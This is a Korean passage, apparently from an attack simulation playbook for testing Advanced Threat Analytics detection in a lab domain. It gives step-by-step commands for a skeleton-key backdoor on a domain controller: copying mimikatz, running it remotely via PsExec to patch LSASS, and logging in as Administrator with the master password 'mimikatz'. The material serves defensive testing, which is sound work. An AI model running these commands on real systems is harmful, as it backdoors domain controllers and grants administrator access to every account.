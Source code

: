 ![원격 실행](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig33.png) 

<a id="domain-dominance" class="xliff"></a>
### 도메인 우위

공격자는 도메인 우위를 차지했으며, 관리자로서 모든 코드를 실행할 수 있으며 도메인의 모든 리소스에 액세스할 수 있습니다.
 
그러나 도메인 우위의 지속성을 유지하기 위해 원래 공격 방법이 발견되거나 자격 증명이 임의로 재설정되는 경우 백도어 및 기타 메커니즘이 보험 정책으로 적용됩니다. 이 시점에서 공격자는 DC에 대해 최종 백도어를 만들려고 하는 것으로 가정됩니다. 이 방법은 즉시 *Admin* 권한의 사용자를 만드는 방법으로, 이 방법을 스켈레톤 키라고 합니다. 

다음 단계는 DC1에 스켈레톤 키 공격을 삽입하는 것입니다. 먼저 *mimikatz*를 DC에 복사해야 합니다. 이 단계에서는 DC가 32비트 컴퓨터인지 64비트 컴퓨터인지 여부를 알아야 합니다.  이 예에서는 64비트 시스템을 사용하므로 특정 환경의 필요에 맞게 수정할 수 있습니다.

    xcopy x64\mimikatz.exe \\dc1\c$\temp\

다음으로 *PsExec*을 사용하여 명령을 원격으로 실행하고 아래 명령을 사용하여 스켈레톤 키를 배포합니다.

    PsExec \\dc1 -accepteula cmd /c (cd c:\temp ^& mimikatz.exe “privilege::debug” “misc::skeleton” ^& “exit”)

이 명령의 결과 예가 아래 이미지에 나와 있습니다.

![PSExec2](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig34.png) 

공격자는 스켈레톤 키를 사용하여 LSASS.exe 바이너리를 "패치"했습니다.  이 시점에서 공격자는 스켈레톤 키를 활용할 수 있습니다. 이를 시뮬레이트하려면 *JeffV*로 명령 프롬프트를 엽니다.  먼저 다른 사용자의 티켓이 없는지 확인합니다. 이 단계는 바로 진행되므로 진행 상황을 정확히 확인할 수 있습니다. *Victim-PC*에서 *JeffV*로 아래 명령을 실행합니다.

    klist

이 명령의 결과 예가 아래 이미지에 나와 있습니다.

![klist nucko](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig35.png) 

위의 샘플에서 보듯이 권한 수준이 높은 티켓은 없습니다.  즉, 공격자가 실행하는 모든 명령에는 *JeffV*가 가진 권한만 있어야 합니다. 이제 DC1의 C$를 매핑하여 DC1에 대해 인증을 시도합니다.  모든 암호가 작동하는 것은 아님을 설명하기 위해 잘못된 암호를 사용합니다. 동일한 정리 명령 프롬프트에서 아래 명령을 실행합니다.

    net use k: \\dc1\c$ wrongpassword /user:Administrator@contoso.local

이 명령의 결과 예가 아래 이미지에 나와 있습니다.

![net use](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig36.png) 

샘플에서 보듯이 이 명령은 예상대로 실패했습니다.  그러나 이 명령은 스켈레톤 키가 사용되는 곳입니다. 동일한 명령을 다시 시도하지만 이제는 스켈레톤 키를 삽입한 DC1에 대해 인증된 모든 계정에 방금 추가한 마스터 키가 사용됩니다. 명령 프롬프트에서 다음 명령을 실행합니다. 하지만 이번에는 마스터 키 “mimikatz”가 사용됩니다.

    net use k: \\dc1\c$ mimikatz /user:Administrator@contoso.local

이 명령의 결과 예가 아래 이미지에 나와 있습니다.

![net use 2](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig37.png) 

공격자는 "mimikatz"(하드 코드됨) 마스터 키를 사용하여 관리자 권한을 얻을 수 있습니다.  이 키는 계정에 대한 암호는 아니며, DC1에 연결하고 패치된 프로세스를 사용하며 모든 사용자를 관리자(또는 다른 보안 그룹)로 인증할 수 있는 방법이 됩니다. 이제 각 계정마다 2개의 활성 암호가 존재합니다.

- 사용자/관리자가 원래 만든 암호
- 스켈레톤 마스터 키  
